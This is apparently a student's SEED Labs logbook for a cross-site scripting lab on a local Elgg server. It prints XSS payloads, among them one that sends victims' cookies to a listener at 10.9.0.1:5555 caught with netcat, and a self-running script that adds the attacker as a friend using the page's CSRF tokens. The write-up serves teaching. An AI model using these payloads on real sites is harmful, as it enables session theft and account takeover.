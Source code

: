 # Seedlab Week #7 (Cross-Site Scripting XSS Attack Lab)

# Question 1

### Task 1: Posting a Malicious Message to Display an Alert Window

In this task, our goal was to embed a JavaScript program in the Elgg user profile.

Programm to insert:
```html
<script>alert('XSS');</script>
```

First, we logged in with the `alice` username and `seedalice` password. Then, we navigated to Alice's profile page at `http://www.seed-server.com/profile/alice`, clicked on `Edit profile`, and pasted the JavaScript program into the `Brief description` field before and Save it.

As a result, any user who opened our profile page saw an alert window on the screen:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task1.png"/>
</p>


### Task 2: Posting a Malicious Message to Display Cookies

In this task, we aimed to show the user's cookies in an alert window.

Programm to insert:
```html
<script>alert(document.cookie);</script>
```

The solution was similar to the previous task: we inserted the script in the `Brief description` field of Alice's profile. Then, we logged in from another account (`boby` username and `seedboby` password).

When the `Members` page was opened, Alice's code executed, and we saw our cookies in the alert.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task2.png"/>
</p>

### Task 3: Stealing Cookies from the Victim’s Machine

In this task, our objective was to retrieve cookies from another user.

Programm to insert:
```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

This code sends the cookies to port 5555, so we needed to listen on this port by using the command `nc -lknv 5555` in our terminal. We placed the code in Alice's profile and then logged in with Boby's account.

The output from terminal:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task3.png"/>
</p>

Thus, when another user (Boby) opened the `Members` page, we received his cookies.

### Task 4: Becoming the Victim’s Friend

In this task, we needed to write an XSS worm that would automatically add Samy as a friend to anyone who opened Samy's page.

#### Analyse HTTP request.

First step was to find out how the HTTP request looks like, we used Firefox’s `Header Live` tool.

We opened the `Header Live` and logined as a Samy (`samy`, `seedsamy`) and opened Alice's profile and clicked on `Add friend`.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task4.1.png"/>
</p>

We inspected the first request to retrieve all the necessary information.

It is `GET` request with this url: `http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w`
<!-- Podem ver se vcs tambem tem 2 vezes o token e o ts -->
#### JS script 

Next, we modified our script to send a request to add a friend.

Final version would be:
```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; 
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token; 
        
        //Construct the HTTP request to add Samy as a friend.
        var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;
        
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

We constructed the `sendurl` variable based on the request URL, using Samy's friend ID (found as `"owner_guid":59` in the page HTML).

Finally, we placed this code in Samy's `About me` section (using `Edit HTML` to insert the code) and visited his profile page with a different account (Boby).

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task4.2.png"/>
</p>

As a result, simply by visiting Samy's page, he was added to Boby's friends.

#### Asnwers

* Q1: Both lines include security tokens in our request, and they are expected by server, so without these lines, our XSS attack would be unable to perform authenticated actions (like adding friends) because the application would detect the request as unauthorized. 
    * First line: adds timestamp security token.
    * Second line: adds CSRF token.
* Q2: TODO

